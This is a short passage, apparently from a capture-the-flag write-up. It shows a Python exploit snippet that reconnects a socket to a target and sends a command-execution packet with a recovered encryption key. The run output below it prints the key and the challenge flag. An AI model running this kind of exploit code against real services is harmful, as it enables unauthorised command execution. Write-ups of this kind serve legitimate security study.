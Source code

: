 ```python
    # reconnect
    sock.close()
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target,port))
    send_packet_exec(sock, enc_key)

```

Result:
```bash
$ python3 exploit.py <ip> <port>
[*] Sending ..
[*] Receiving ..
[+] Encryption key found: 0x2e
[*] File content: PWNX{67ef535c2d1a5eea75b21091bd5d2e18eedf9f5c5abd61aa73b0110522666ab3}
```